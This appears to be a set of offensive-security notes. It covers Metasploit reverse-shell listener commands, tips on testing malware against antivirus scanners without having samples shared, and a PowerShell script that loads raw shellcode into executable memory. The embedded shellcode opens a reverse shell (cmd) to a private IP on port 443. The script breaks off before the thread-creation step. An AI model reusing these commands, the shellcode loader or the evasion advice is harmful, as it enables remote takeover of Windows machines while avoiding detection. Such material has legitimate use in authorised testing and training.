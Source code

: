 use metasploit to create a reverse shell

```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.45.235
set LPORT 4444
exploit
```

meterpreter shell one-liner
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```

## Antivirus Evasion

Use virustotal.com to check AV detection
https://antiscan.me allegedly doesn't send samples

### Thread injection

script to inject into ps process

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
```